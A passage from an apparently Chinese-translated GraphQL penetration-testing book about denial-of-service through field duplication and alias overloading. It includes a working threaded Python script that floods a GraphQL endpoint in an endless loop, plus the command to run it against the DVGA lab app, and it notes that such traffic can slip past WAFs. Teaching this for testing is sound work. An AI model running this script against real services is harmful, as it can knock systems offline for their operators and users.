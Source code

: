 图 5-4：查询重复字段的响应时间较慢

有些字段在解析时需要更多的资源，因此性能影响可能会根据选择的字段而有所不同。

这个攻击要求客户端不断发送大型有效载荷。试图手动利用字段重复可能会很麻烦。作为一种替代方法，你可以使用一个特殊的 Python 漏洞，尝试在更大规模上执行字段重复攻击。清单 5-6 展示了这种漏洞的代码片段。它向远程服务器发送连续的查询流，以消耗其资源。

```
THREADS = 50

❶ payload = 'content \n title \n' * 1000
❷ query = {'query':'query { \n ' + payload + '}'}

❸ def DoS():
    try:
      r = requests.post(GRAPHQL_URL, json=query)
      print('Time took: {} seconds '.format(r.elapsed.total_seconds()))
      print('Response:', r.json())
    except Exception as e:
      print('Error', e.message)

❹ while True:
    print('Running...')
    time.sleep(2)
    for _ in range(THREADS):
      t = threading.Thread(target=DoS, args=())
      t.start()
```

清单 5-6：字段重复漏洞

这段代码创建了一个动态的`payload`变量❶，其中包含两个重复的字段：`content`和`title`，每个字段重复了 1,000 次。在❷处，它将`payload`与`query` JSON 变量连接起来。然后，它定义了一个名为`DoS`的函数，负责发送包含我们恶意 GraphQL 查询的 HTTP POST 请求❸。我们运行一个无限的`while`循环，每两秒执行一次`DoS`函数，使用 50 个线程❹。完整的漏洞代码可以在 GitHub 上找到，链接为[`github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/exploit_threaded_field_dup.py`](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/exploit_threaded_field_dup.py)。

你可以下载这个漏洞，并使用以下命令在 DVGA 上运行它。请注意，在运行时，你的机器可能会出现性能下降：

```
# **python3 exploit_threaded_field_dup.py http://localhost:5013/graphql**
```

由于该漏洞使用了无限循环，它不会自行停止；你可以通过按下 CTRL-C 发送*SIGINT*信号来终止它。

## 别名重载

在第三章中，你学习了如何使用别名重命名重复的字段，以便 GraphQL 服务器将它们视为两个不同的查询。在单个 HTTP 请求中运行多个查询的能力非常强大。安全分析人员在寻找可疑流量时很容易忽视这些单独的请求（WAF 也可能忽视）。毕竟，他们可能会想，一个单一的 HTTP 请求能造成什么 harm 呢？

默认情况下，GraphQL 服务器不会限制单个请求中可以使用的别名数量。GraphQL 应用程序的维护者可以实施自定义保护措施，例如计数别名并在某些中间件中限制它们，但由于别名是 GraphQL 规范的一部分，因此删除对它们的支持或限制其功能并不常见。

### 利用别名进行拒绝服务攻击

在进行渗透测试时，你可能会遇到处理时间比其他查询长的查询。如果你识别出这样的查询，可以通过反复调用相同的查询来占用系统资源。如果服务器难以快速返回响应，持续用相同查询淹没服务器可能会导致系统超载。
